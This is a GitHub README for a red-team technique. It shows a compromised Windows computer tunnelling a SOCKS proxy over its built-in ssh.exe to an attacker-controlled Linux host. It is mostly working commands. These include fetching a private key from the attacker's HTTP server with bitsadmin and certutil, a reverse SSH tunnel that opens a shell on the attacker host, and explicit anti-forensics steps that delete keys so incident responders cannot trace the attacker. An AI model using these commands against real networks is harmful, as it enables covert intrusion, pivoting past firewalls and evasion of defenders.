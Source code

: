 # win-ssh-rvsproxy
Tunneling Socks proxy through Windows.

This document presents a Red Team approach for tunneling a Socks proxy through SSH on a compromised Windows computer from an external attacker-controlled Linux host.  How the Windows computer is compromised is not covered here; the assumption is that you have a way to run commands on the victim host.

The following diagram shows the scenario.  An external attacker system (A) is running sshd to allow tunnel creation, and will also run python SimpleHTTPServer to serve an ephemeral SSH key to allow the Windows computer (B) to log in.  The Windows target (B) will execute the built-in ssh.exe command line utility and create a Socks proxy, through which the attacker (A) can access other systems protected behind the firewall, such as the web server (C).

![alt text](https://github.com/billchaison/win-ssh-rvsproxy/blob/main/01.png)

**Preparing the attack host**<br />

* On host (A) create a disposable SSH key pair.  The key will be destroyed after use in order to prevent reuse by incident responders.<br /><br />
  `cd /root`<br /><br />
  `ssh-keygen -t rsa -b 2048 -N "" -f /root/temp_rsa -q`<br /><br />
  `cat /root/temp_rsa.pub >> /root/.ssh/authorized_keys && chmod 600 /root/.ssh/authorized_keys`<br /><br />
* On host (A) launch python simple HTTP server.  This will allow the victim computer (B) to dynamically fetch the temporary private SSH key to login and start the tunnel.<br /><br />
  `python -m SimpleHTTPServer 80`<br />

**Start the proxy server**<br />

* On the victim Windows computer (B) you will need to find a way to copy the SSH private key to the user's `%tmp%` path in this example.  Two possibilities are as follows.<br /><br />
  `%SYSTEMROOT%\System32\bitsadmin.exe /transfer n http://192.168.1.242/temp_rsa %tmp%\temp_rsa`<br /><br />
  `%SYSTEMROOT%\System32\certutil.exe -urlcache -split -f http://192.168.1.242/temp_rsa %tmp%\temp_rsa`<br /><br />
* On the victim Windows computer (B) create the reverse proxy and tunnel.  Once connected to the attacker computer (A) the temporary key will be stripped from the authorized_keys file and the python web server will be terminated.  Also the private key stored on machine (B) under `%tmp%` will be deleted after the tunnel is destroyed by the attacker.  These are anti-forensics techniques to prevent incident responders from gaining access to your attacker machine (A).<br /><br />
  `%SYSTEMROOT%\System32\OpenSSH\ssh.exe -o StrictHostKeychecking=no -i %tmp%\temp_rsa -R localhost:1080 root@192.168.1.242 "grep -v -f /root/temp_rsa.pub /root/.ssh/authorized_keys > /root/.ssh/authorized_keys.bak && mv /root/.ssh/authorized_keys.bak /root/.ssh/authorized_keys && kill $(lsof -t -i:80) && bash" & del %tmp%\temp_rsa`<br />

**Using the reverse proxy**<br />

From the attacker host (A) you can configure a browser to use the local Socks proxy on 127.0.0.1 port 1080.  You should now be able to access the protected web server (C) by going to `https://10.1.2.4`

Any other protected service behind the firewall could be accessed through Socks tunnel as long as the tools on the attacking machine (A) support Socks or you have proxychains configured to use 127.0.0.1 port 1080.

When you are finished and want to terminate the reverse proxy, issue the following command on the attacker host (A).

`kill $(lsof -t -i:1080)`
